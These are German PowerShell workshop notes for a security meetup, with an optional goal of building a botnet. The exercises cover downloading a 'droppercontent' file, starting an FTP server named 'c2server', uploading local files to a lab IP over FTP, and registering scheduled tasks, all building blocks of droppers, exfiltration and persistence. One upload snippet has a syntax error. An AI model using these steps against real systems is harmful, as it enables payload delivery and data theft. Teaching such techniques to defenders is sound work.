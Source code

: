 # Motivation
 
 Ziel: Workshop Powershell
 
 Rahmen: Security Meetup öffentliche Veranstaltung
 Publikum: Pentester, Admins, Entwickler
 
 (Optionales Ziel: Botnetz entwickeln)
 
# Ablauf
 
 Wie findet man sich zurecht in Powershell wenn man von Linux kommt
 
 Theorie-Praxis-Theorie-Praxis...
 
# Powershell zum Laufen bekommen
 
 Linux: snap
 Windows: vorinstalliert
 
# Hello World
 
## Übungsbeschreibung
 
 Gib "Ich bin der L77t H4x0r" auf dem Bildschirm aus
 
## Hilfe
 Get-Help, alias
 
## Lösung 

```
 echo "Ich bin der L77t H4x0r"
```
`
# Datei zwischenspeichern
 
## Übungsbeschreibung
 
 Schreibe "I was here, I pwnd your system, muahaha" in eine Datei info.txt
 
## Hilfe
 Nutze Google "Write string to file powershell"

## Lösung

```
"I was here, I pwnd your system, muahaha" | Out-File .\info.txt
```

# Datei auslesen 
 
## Übungsbeschreibung
 
 Lies die Datei info.txt aus und gib sie auf dem Bildschirm aus
 
## Lösung
```
Get-Content Dateiname
```

# Datei herunterladen

## Übungsbeschreibung

Lade folgende Datei über powershell herunter
https://raw.githubusercontent.com/secf00tprint/powershellworkshop/main/droppercontent

## Hilfe
Recherchiere zu der System.Net.WebClient Klasse

## Lösung 
$webclient = New-Object System.Net.WebClient
$url = "https://raw.githubusercontent.com/secf00tprint/powershellworkshop/main/droppercontent"
$filename = "droppercontent"
$webclient.DownloadFile($url, $filename)

# Datei über ftp herunterladen

## Übungsbeschreibung

https://hub.docker.com/r/garethflowers/ftp-server
fahre folgenden ftp server hoch mit folgendem Befehl.

```
docker run \
	--name c2server \
	--detach \
	--env FTP_USER=c2cmdgod \
	--env FTP_PASS=c2cmdgod \
	--network host \
	--volume /data:/home/user \
	garethflowers/ftp-server
```

## Hilfe
Schaue dir die System.Net.WebClient Klasse in bezug auf ftp an

## Beispiellösungen 

```
$file = "C:\test.txt"
$ftpuri = "ftp://test:123qwe@192.168.2.222/test.txt"
$webclient = New-Object System.Net.WebClient
$uri = New-Object System.Uri($ftpuri)
$webclient.DownloadFile($uri, $file)

$file = "C:\test.txt"
$password="test"
$user="123qwe"
$ftpuri = "ftp://"+ $user +":"+ $password + "@192.168.2.222/test.txt"
$webclient = New-Object System.Net.WebClient
$uri = New-Object System.Uri($ftpuri)
$webclient.DownloadFile($uri, $file)
```

# Datei über ftp hochladen

## Übungsbeschreibung 
Lade über das ftp protokoll folgende Datei vom beigelieferten vsftp server hoch:

## Hilfe
Ähnliches vorgehen wie in vorangegangener Aufgabe.

## Beispiellösung

```
$file = "C:\test.txt"
$password"test"
$user="123qwe"
$ftpuri = "ftp://"+ $user +":"+ $password + "@192.168.2.222/test.txt"
$webclient = New-Object System.Net.WebClient
$uri = New-Object System.Uri($ftpuri)
$webclient.UploadFile($uri, $file)
```

# timing Aufgaben

## Hilfe
Anschaun der Klassen New-ScheduledTaskTrigger, New-ScheduledTaskAction und Register-ScheduledTask

## Beispiellösung
```
$t = New-ScheduledTaskTrigger -Daily -At 13:20:00
$a = New-ScheduledTaskAction -Execute "explorer"

Register-ScheduledTask Task001 -Action $a -Trigger $t
```
